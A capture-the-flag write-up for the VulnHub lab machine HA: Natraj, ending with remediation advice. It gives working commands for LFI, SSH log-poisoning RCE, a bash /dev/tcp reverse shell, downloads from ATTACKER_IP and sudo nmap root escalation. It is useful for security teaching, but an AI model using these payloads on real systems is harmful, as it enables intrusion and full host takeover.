



# HA: Natraj — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.10.156 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/ha-natraj-vulnhub-walkthrough/) |
| **VulnHub** | https://www.vulnhub.com/entry/ha-natraj,489/ |

## Attack Summary

HA: Natraj chains three techniques to reach root: directory brute-forcing uncovers a PHP file, a Local File Inclusion (LFI) vulnerability in that file is escalated to Remote Code Execution (RCE) via SSH log poisoning (auth.log injection), then privilege escalation from `www-data` to an intermediate user (`mahakal`) is achieved by exploiting write access to `apache2.conf`, and finally from `mahakal` to root via `sudo nmap --interactive`.

## Methodology

1. Reconnaissance: nmap full-port scan
2. Enumeration: dirb directory brute-force, source inspection
3. Exploitation: LFI discovery, SSH log poisoning to RCE
4. Lateral movement: writable `apache2.conf` to change Apache user
5. Privilege escalation: `sudo nmap` interactive mode

## Step 1: Reconnaissance

### Host Discovery

```bash
netdiscover
```

Target identified at `192.168.10.156`.

### Port Scan

```bash
nmap -sV -sC -p- 192.168.10.156
```

Open ports:
- 22/tcp — SSH (OpenSSH)
- 80/tcp — HTTP (Apache)


## Step 2: Web Enumeration

### Manual Inspection

Browse to `http://192.168.10.156`. The page displays images and text about Natraj. Checking `robots.txt` and page source reveals nothing immediately useful.

### Directory Brute-Force

```bash
dirb http://192.168.10.156
```

Dirb finds the directory `/console/`.

### File Discovery inside /console

Browsing to `http://192.168.10.156/console/` lists a file: `file.php`.

Loading `http://192.168.10.156/console/file.php` with no parameters returns an empty response.

## Step 3: Local File Inclusion

Test the `file` parameter (matching the filename pattern) for LFI:

```bash
curl "http://192.168.10.156/console/file.php?file=../../../../etc/passwd"
```

The response includes `/etc/passwd` contents — LFI is confirmed.



Check whether the auth log is readable:

```bash
curl "http://192.168.10.156/console/file.php?file=../../../../var/log/auth.log"
```

The auth log is accessible. This enables **SSH log poisoning**.

## Step 4: SSH Log Poisoning (LFI to RCE)

### Inject PHP into auth.log

SSH login attempts are recorded in `/var/log/auth.log`. The username field is logged without sanitization. Send a PHP snippet as the username:

```bash
ssh '<?php system($_GET["cmd"]); ?>'@192.168.10.156
```

Authentication will fail, but the PHP payload is now written into `auth.log`.

### Verify RCE

Include the log through the LFI parameter and pass a command via the `cmd` parameter:

```bash
curl "http://192.168.10.156/console/file.php?file=../../../../var/log/auth.log&cmd=id"
```

The output should include `uid=33(www-data)` — RCE as `www-data` is confirmed.

## Step 5: Reverse Shell as www-data

### Start a Netcat Listener

On the attacker machine:

```bash
nc -lvnp 1234
```

### Send the Reverse Shell

URL-encode the reverse shell command and deliver it through the LFI + RCE chain:

```bash
# Raw command:
# bash -i >& /dev/tcp/ATTACKER_IP/1234 0>&1
# URL-encoded:
curl "http://192.168.10.156/console/file.php?file=../../../../var/log/auth.log&cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FATTACKER_IP%2F1234%200%3E%261"
```

A shell as `www-data` connects to the listener.



### Upgrade to Interactive Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Then: Ctrl+Z, stty raw -echo; fg, export TERM=xterm
```

## Step 6: Privilege Escalation to mahakal

### Discover Writable apache2.conf

Run enumeration:

```bash
find / -writable -name "apache2.conf" 2>/dev/null
# Or use LinEnum: wget http://ATTACKER_IP/LinEnum.sh -O /tmp/le.sh && bash /tmp/le.sh
```

The file `/etc/apache2/apache2.conf` is writable by `www-data`.



### Modify Apache to Run as mahakal

On the attacker machine, download `apache2.conf` and edit the `User` directive:

```bash
# Change the line:
# User www-data
# to:
# User mahakal
```

Serve the modified file:

```bash
python3 -m http.server 8000
```

On the target, fetch and replace the config:

```bash
wget http://ATTACKER_IP:8000/apache2.conf -O /etc/apache2/apache2.conf
```

### Deploy a PHP Reverse Shell

Place a PHP reverse shell in the web root:

```bash
# On Kali, copy /usr/share/webshells/php/php-reverse-shell.php
# Edit LHOST/LPORT then serve it
wget http://ATTACKER_IP:8000/shell.php -O /var/www/html/shell.php
```

Start a listener on port 5555:

```bash
nc -lvnp 5555
```

Restart Apache (requires a method to trigger a restart — either wait for a scheduled restart or use a privilege that allows it):

```bash
sudo /bin/systemctl restart apache2
```

Then trigger the shell:

```bash
curl http://192.168.10.156/shell.php
```

A shell as `mahakal` connects.

## Step 7: Privilege Escalation to root

Check sudo permissions:

```bash
sudo -l
```

Output shows:

```
(root) NOPASSWD: /usr/bin/nmap
```

Use nmap's `--interactive` mode (or Lua script execution) to spawn a root shell:

```bash
# Method 1: nmap interactive (older versions)
sudo nmap --interactive
# Then at nmap prompt:
!sh

# Method 2: nmap script exec (newer versions)
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

Root shell obtained.


Read the flag:

```bash
cat /root/flag.txt
```

## Vulnerabilities Found

| # | Vulnerability | Location | Severity |
|---|---|---|---|
| 1 | Local File Inclusion (LFI) | `file.php?file=` | Critical |
| 2 | SSH Log Poisoning (LFI→RCE) | `/var/log/auth.log` | Critical |
| 3 | World-writable `/etc/apache2/apache2.conf` | Apache config | High |
| 4 | `sudo nmap` without password | sudoers | Critical |

## Lessons Learned

- LFI vulnerabilities that can read log files are often escalatable to RCE without needing to upload files directly.
- SSH authentication logs recording the username field verbatim is the key enabler of this attack.
- Writable service configuration files allow changing the service's runtime user, enabling lateral movement.
- Any `sudo` entry for an interactive interpreter or program that can execute arbitrary code leads directly to root.

## Remediation

| Vulnerability | Fix |
|---|---|
| LFI | Validate and whitelist allowed file paths; never pass user input directly to `include()` or `file_get_contents()` |
| Log poisoning | Sanitize or encode log entries; disable LFI before addressing log exposure |
| Writable config | Set `apache2.conf` ownership to root:root with mode 644 |
| sudo nmap | Remove nmap from sudoers; if needed, use a restricted wrapper script |
